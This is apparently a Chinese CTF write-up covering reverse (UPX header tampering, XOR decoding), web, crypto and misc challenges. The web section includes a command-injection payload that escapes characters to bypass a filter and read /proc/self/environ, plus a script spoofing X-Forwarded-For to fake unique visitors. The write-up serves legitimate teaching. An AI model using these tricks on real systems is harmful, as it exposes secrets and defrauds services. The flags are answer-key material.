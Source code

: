 Reverse
1.upx
题目和文件名提示有upx壳（但文件名是vpx，其实是个提示）

用upx脱壳，发现无法脱壳

![](https://cdn.nlark.com/yuque/0/2024/png/50711788/1732694051379-4353991f-c337-435e-ad0b-533437a8dc81.png)由于加壳器是通过识别壳的特征来判断是否可以脱壳的，这里可以想到是对壳的特征动了手脚

详细讲解可以看这篇文章[https://www.cnblogs.com/xiazai/p/14295684.html](https://www.cnblogs.com/xiazai/p/14295684.html)

用010editor查看程序，发现特征UPX0被改为VPX0了

![](https://cdn.nlark.com/yuque/0/2024/png/50711788/1732694389176-04934b0b-2afa-4cf8-b4e4-f24332502e5c.png)

将它改回UPX，就可以正常脱壳了，用IDA64打开，查看main函数伪代码：

![](https://cdn.nlark.com/yuque/0/2024/png/50711788/1732695659807-1b74be0f-91e5-44ed-bfc8-7ad4fbf632da.png)

可以发现是对flag进行了按位异或，示例解题脚本如下：

---

```plain
a="smawb~SwpV;xSD`[#c!``$xp98g"
a_list = list(a)
i=0
for i in range(len(a)):
    a_list[i] = chr(ord(a_list[i]) ^ i)
    i+=1
a_decrypted = ''.join(a_list)

print(a_decrypted)
```

得到flag为：slctf{Upx_1s_InT3r3st1ng!!}


2.ezreverse
没加壳，用ida64打开可直接看到main函数逻辑

![](https://cdn.nlark.com/yuque/0/2024/png/50711788/1732693734408-a84c8bb4-7e6e-48aa-bd98-cb582eec89e9.png)不难猜到是对flag进行了一个逆序，F5看一下伪代码

![](https://cdn.nlark.com/yuque/0/2024/png/50711788/1732693851714-7a736693-ee2e-4013-9084-011a05eb9a27.png)和预想的一样，flag为slctf{Y0u_@re_g00D_@_rev3rs1ng}





WEB
1.Crafting an Art
使用&&连接命令。运行过程中过滤了cat和env，使用\将其隔开就行(转义符转义字母和不转义一样)

&&c\a\t /proc/self/e\n\viron | tr '\0' '\n'

https://www.cnblogs.com/snad/p/18542330



2.Flag免费送
启动容器，不难观察到，修改`X-Forwarded-For`会被视为不同的`IP`，因此，可以利用这个机制随机生成`IP`地址。

```python
import random
import requests

def generateIP():
    return '.'.join(str(random.randint(0, 255)) for _ in range(4))

if __name__ == '__main__':
    url = "" # 填写你的邀请链接
    for _ in range(100):
        ret = requests.get(url, headers={"x-forwarded-for": generateIP()})
```




Crypto
1.摩斯电码
查看字典发现是标准的摩斯电码转换规则，使用在线摩斯电码转换器，得到明文
MORSECODEISVERYFUNNY





Misc
1. BMP更合适
直接使用stegsolve，发现没什么东西。用winhex，发现文件末尾有一行话，大意为要求我们将文件转换为bmp后再来看这里。

查看左下角的像素，发现有一些杂色像素。

既然题目说了bmp，png和bmp都是无损格式，那我们可以尝试把做下的杂色像素提取出来（单纯的剪裁），然后另存为bmp。

题目为什么要区分bmp和png呢？既然都是图片，刚刚的操作不能影响像素值，但是可以改变文件的储存格式。

或许我们可以用二进制文件查看工具（例如winhex）看看处理过的bmp文件

即可获取flag。

原理是bmp储存不会进行无损压缩，png会对文件进行无损压缩，另存为bmp相当于无损解压缩了。



2.机器人工程
本题是一个zip嵌套，套了1145层。

你也可以真的双击1145次得到flag，也有同学这个做过。

不过本题是希望你写一个脚本来解压嵌套压缩包。

用Python即可写一个

import zipfile

import io



def unzip(fileBytes):

    with zipfile.ZipFile(fileBytes, 'r') as zf:

        file_list = zf.namelist()  # 获取ZIP文件中的文件列表

        print(file_list)

        file_content = io.BytesIO()

        with zf.open(file_list[0]) as file:

            file_content.write(file.read())

        return file_content



with open('flag.zip', 'rb') as f:

    fileBytes = io.BytesIO(f.read())

while 1:

    fileBytes = unzip(fileBytes)

    if fileBytes.getvalue()[:2] == b'PK':

        ...

    else:

        print(fileBytes.getvalue())

        break

其中，用BytesIO的目的在于直接在内存中进行解压而不用在硬盘上创建1145个zip压缩包。

zipfile是Python自带库来解压缩zip。
非预期解

听说mac系统下有工具可以不用代码一件解压这种嵌套压缩包